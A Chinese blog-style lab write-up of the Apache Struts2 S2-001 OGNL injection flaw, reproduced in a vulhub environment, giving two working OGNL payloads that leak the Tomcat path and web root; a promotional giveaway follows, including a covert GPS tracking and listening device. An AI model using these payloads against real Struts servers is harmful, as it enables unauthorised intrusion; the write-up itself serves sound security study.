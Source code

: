 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/OdF0qZ8JzFW_c1EMNyMbTg)

![图片](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)  

**漏洞信息：**

**漏洞信息页面：** 

https://cwiki.apache.org/confluence/display/WW/S2-001

  
**漏洞成因官方概述：**

Remote code exploit on form validation error

  

**漏洞影响：**  
WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL83bBoGVE9u0L3El1ibJHEbCb7ahmzB24k8e9ticTicpCicaGwIOBfSHSWjytDHOlGPShSaTQpddbEbDQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

**环境搭建：**  
用vulhub靶场进行搭建，非常方便

  
 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)   
  

我已经搭建完成，这个图片是已经搭建完成的，使用 docker ps 命令 查看已经搭建好的靶场容器。

  
**原理：**

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value}

  
进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value}

  
对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行 

  
**利用过程：**  
进入靶场

  
 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)   
这个漏洞的问题在于可以直接输入和直接回显  
将POC粘到一个输入框，点击Submit  
此后会将数据提交到后端，后端检测值是否为空，然后返回，满足漏洞前提  
获取tomcat执行路径：  

  

```
<span class="token operator">%</span><span class="token punctuation">{</span><span class="token string">"tomcatBinDir{"</span><span class="token operator"> </span><span class="token annotation punctuation">@java</span><span class="token punctuation">.</span>lang<span class="token punctuation">.</span>System<span class="token annotation punctuation">@getProperty</span><span class="token punctuation">(</span><span class="token string">"user.dir"</span><span class="token punctuation">)</span><span class="token operator"> </span><span class="token string">"}"</span><span class="token punctuation">}</span>
```

  

 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==) 

  

获取Web路径：

  

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)   
**总结：**

最后总结一下 S2-001 的一个触发条件：开启 altSyntax 功能；使用 s 标签处理表单；action 返回错误；OGNL 递归处理

  
值得一提的是 Struts2 官方给出了一个解决办法中提到了：从XWork 2.0.4开始，OGNL解析被更改，因此它不是递归的。因此，在上面的示例中，结果将是预期的％{1 1}。

  
也就是只会获取到 username 的内容，而不会再把 username 里的内容再执行一遍。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "微信公众号文章素材之分割线大全")

  

-----**玄魂工作室元旦活动进行中**------

**一、活动奖品**  

  

参加本次互动，可以得到如下奖品：

  

1. 《Kali Linux大揭秘：深入掌握渗透测试平台》 **10本**

**官方出品，涵盖Kali系统从基础知识到高级技巧全方位知识，考取Kali Linux认证专家资质应读的学习纲要！看雪学院段钢，OWASP陈亮、余弦、Claud Xiao、长亭科技杨坤好评力荐！**

  

2. 《Python安全攻防：渗透测试实战指南》**5本**

在网络安全领域，是否具备编程能力是“脚本小子”和真正黑客的本质区别。本书围绕Python在网络安全渗透测试各个领域中的应用展开，通过大量图解，从实战攻防场景分析代码，帮助初学者快速掌握使用Python进行网络安全编程的方法，深入浅出地讲解如何在渗透测试中使用Python，使Python成为读者手中的神兵利器。

  

  

3. 《CTF特训营:技术详解、解题方法与竞赛技巧》**5本**

国内首本CTF赛事技术解析书籍，老牌CTF战队FlappyPig撰写，从安全技术、解题方法、竞赛技巧3大维度全面展开，Web、Reverse、PWN、Crypto、APK、IoT 6大篇，扎扎实实30章，厚达518页，三度Pwn2Own冠军Flanker、CTF赛事国内推动先驱者诸葛建伟、段海新教授联袂推荐。考虑到广大CTF学子，学生群体会比较多，作者团队强烈要求降低图书定价，象征性只拿1%版税用来公益捐出。

  

  

4. 反监听探测仪 2个

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

5. gps定位器追跟器手机监控设备追踪远程专业跟踪听音小型位置监听 2个

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

6. ”玄说安全“知识星球 5折券  

     订阅号回复 ”xqyh"即可领取  

  

**活动参与办法**

活动参与办法见文章：[给你一双火眼金睛，如何窥探手机内部的秘密？](http://mp.weixin.qq.com/s?__biz=MzA4NDk5NTYwNw==&mid=2651428284&idx=1&sn=15a8fb66ba698fd6d320a1b9f8872473&chksm=84238ec4b35407d2cdf1c458a9c5b0ee6b2ed4f36879ef361db0b9be3089294cc5095fe69365&scene=21#wechat_redirect)

  

有任何问题，本篇文章下留言询问，或者扫描下方二维码加小秘书微信，回复“安全”进活动群都可（活动群有现金红包活动）。谢谢支持！  

**![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**

**--------------------------**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

欢迎关注玄魂工作室

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)